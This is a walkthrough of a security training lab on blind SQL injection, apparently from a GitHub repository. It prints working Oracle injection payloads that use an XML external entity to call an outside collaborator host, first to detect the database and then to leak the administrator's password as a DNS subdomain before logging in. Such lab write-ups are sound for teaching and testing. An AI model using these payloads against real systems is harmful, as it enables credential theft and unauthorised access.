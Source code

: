 # Blind SQL injection with out-of-band data exfiltration

 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Hint Cheat-sheet

![image](https://user-images.githubusercontent.com/83407557/208318640-2bcc3d66-b9cf-43cd-a1ed-add6184559b5.png)

# Step 1 Finding DB version

I need to grab a collaborator url in order to inject a DNS lookup:

![image](https://user-images.githubusercontent.com/83407557/208318759-8cf20625-38f1-441b-a0a9-991f02c1a32c.png)

URL:

mi84ppnq302ffxs5j44lpbalico4cv0k.oastify.com

next I will try each DB payload in turn to see if I can get it to do a lookup of my server:

1. Oracle

query
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://mi84ppnq302ffxs5j44lpbalico4cv0k.oastify.com/"> %remote;]>'),'/l') FROM dual
```
injectable payload:
```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://mi84ppnq302ffxs5j44lpbalico4cv0k.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

Next I start the lab, and send the landing page to burp repeater:

![image](https://user-images.githubusercontent.com/83407557/208318983-4af60a43-1565-4146-a1c2-9e5631ae1b05.png)


Then I insert and url encode my payload:

![image](https://user-images.githubusercontent.com/83407557/208319016-b8a9d322-14b5-44a8-af09-6b43883d2018.png)

Checking my collaborator tab, after sending the request, I see that a DNS lookup was performed. This lets me know that the database is oracle:

![image](https://user-images.githubusercontent.com/83407557/208319069-35c1dd35-e62f-4f67-8a9d-a1f764a420b3.png)

# Step 2 Finding password

Since I know the table named users, with a column named password and username, and I know a value for a username, I can use the following to exfil the data:

```sql
SELECT password FROM users WHERE username='administrator'
```
Making the entire injection payload:

```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.mi84ppnq302ffxs5j44lpbalico4cv0k.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

Using that payload with repeater, and url encoding it:


![image](https://user-images.githubusercontent.com/83407557/208320492-bf3585d2-d751-46d5-8e95-43fb5122a0e4.png)

Checking my collaborator I see the password added as a subdomain to my server:

![image](https://user-images.githubusercontent.com/83407557/208320550-207852be-b045-45b1-bdf4-955c9ad1069a.png)

# Step 3 login as administrator

I can use this password to login:

![image](https://user-images.githubusercontent.com/83407557/208320636-4c8e9071-ddad-4328-a175-c0eac5c51a7f.png)

Which solves the lab:

![image](https://user-images.githubusercontent.com/83407557/208320658-acb84931-54e5-40e1-83c1-bfacfe7ee1ff.png)


